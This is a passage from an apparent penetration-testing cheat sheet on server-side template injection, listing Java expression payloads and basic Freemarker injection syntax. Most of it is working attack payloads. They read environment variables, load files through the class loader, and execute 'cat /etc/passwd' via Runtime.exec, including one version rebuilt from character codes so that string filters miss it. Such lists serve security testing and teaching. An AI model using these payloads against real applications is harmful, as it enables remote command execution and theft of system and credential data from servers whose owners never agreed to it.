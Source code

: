 
## Java

### Java - Basic Injection

> Multiple variable expressions can be used, if `${...}` doesn't work try `#{...}`, `*{...}`, `@{...}` or `~{...}`.

```java
${7*7}
${{7*7}}
${class.getClassLoader()}
${class.getResource("").getPath()}
${class.getResource("../../../../../index.htm").getContent()}
```

### Java - Retrieve Environment Variables

```java
${T(java.lang.System).getenv()}
```

### Java - Retrieve /etc/passwd

```java
${T(java.lang.Runtime).getRuntime().exec('cat /etc/passwd')}

${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}
```

---

## Freemarker

[Official website](https://freemarker.apache.org/)
> Apache FreeMarker™ is a template engine: a Java library to generate text output (HTML web pages, e-mails, configuration files, source code, etc.) based on templates and changing data. 

You can try your payloads at [https://try.freemarker.apache.org](https://try.freemarker.apache.org)

### Freemarker - Basic Injection

The template can be :

* Default: `${3*3}`  
* Legacy: `#{3*3}`
* Alternative: `[=3*3]` since [FreeMarker 2.3.4](https://freemarker.apache.org/docs/dgui_misc_alternativesyntax.html)
